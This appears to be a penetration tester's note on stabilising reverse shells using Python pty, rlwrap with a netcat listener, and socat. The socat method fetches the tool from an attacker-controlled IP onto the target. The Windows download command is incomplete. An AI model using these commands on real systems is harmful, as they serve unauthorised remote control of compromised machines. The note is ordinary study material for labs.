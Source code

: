 ### shell_stabilisation


#### Technique 1: python


1. `python -c 'import pty;pty.spawn("/bin/bash")'`
2.  `export TERM=xterm`
3.  `stty raw -echo; fg`


![[Pasted image 20220817002908.png]]

#### Technique 2: rlwrap


1. `sudo apt install rlwrap`
2. `rlwrap nc -lvnp <port>`
3. `stty raw -echo; fg`

#### Techinique 3: socat

1. `sudo python3 -m http.server 80`
2. `wget <LOCAL-IP>/socat -O /tmp/socat`
3. `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile `
4. `C:\\Windows\temp\socat.exe`

![[Pasted image 20220817003104.png]]

in your shell type

1. `stty rows <number>`
2. `stty cols <number>`


